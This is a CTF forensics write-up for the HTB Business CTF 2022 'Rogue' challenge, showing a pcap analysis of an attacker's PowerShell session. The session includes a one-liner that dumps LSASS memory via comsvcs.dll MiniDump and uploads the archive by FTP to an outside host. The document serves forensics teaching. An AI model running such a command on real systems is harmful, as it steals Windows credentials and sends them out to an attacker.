 # HTB Business CTF 2022 - Rogue

## Challenge

> SecCorp has reached us about a recent cyber security incident. They are confident that a malicious entity has managed to access a shared folder that stores confidential files. Our threat intel informed us about an active dark web forum where disgruntled employees offer to give access to their employer's internal network for a financial reward. In this forum, one of SecCorp's employees offers to provide access to a low-privileged domain-joined user for 10K in cryptocurrency. Your task is to find out how they managed to gain access to the folder and what corporate secrets did they steal.

- [forensics_rogue.zip](files/forensics_rogue.zip)
  - `capture.pcapng`

### Metadata

- Difficulty: `medium`
- Tags: `pcap`, `wireshark`, `lsass`, `minidump`, `mimikatz`, `smbv3`
- Points: `350`
- Number of solvers: `tbd`

## Solution

### Understanding the capture

If we open the capture in `Wireshark` and open the TCP stream view, we can see that TCP stream 0 contains some PowerShell commands:

```
whoami
ws02\rpaker
PS C:\Windows\system32> hostname
ws02
PS C:\Windows\system32> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
CORP\athomson
CORP\Domain Admins
rpaker
The command completed successfully.

PS C:\Windows\system32> Remove-Item -Path C:\windows\temp\3858793632.pmd -Force -ErrorAction Ignore; rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\windows\temp\3858793632.pmd full | out-host; Compress-Archive  C:\windows\temp\3858793632.pmd  C:\windows\temp\3858793632.zip;Remove-Item -Path C:\windows\temp\3858793632.pmd -Force -ErrorAction Ignore;$cl = New-Object System.Net.WebClient;$f = "C:\windows\temp\3858793632.zip";$s = "ftp://ftpuser:SZC0aBomFG@windowsliveupdater.com/3858793632.zip";$u = New-Object System.Uri($s);$cl.UploadFile($u, $f);Remove-Item -Path C:\windows\temp\3858793632.zip -Force -ErrorAction Ignore;
PS C:\Windows\system32> exit
```
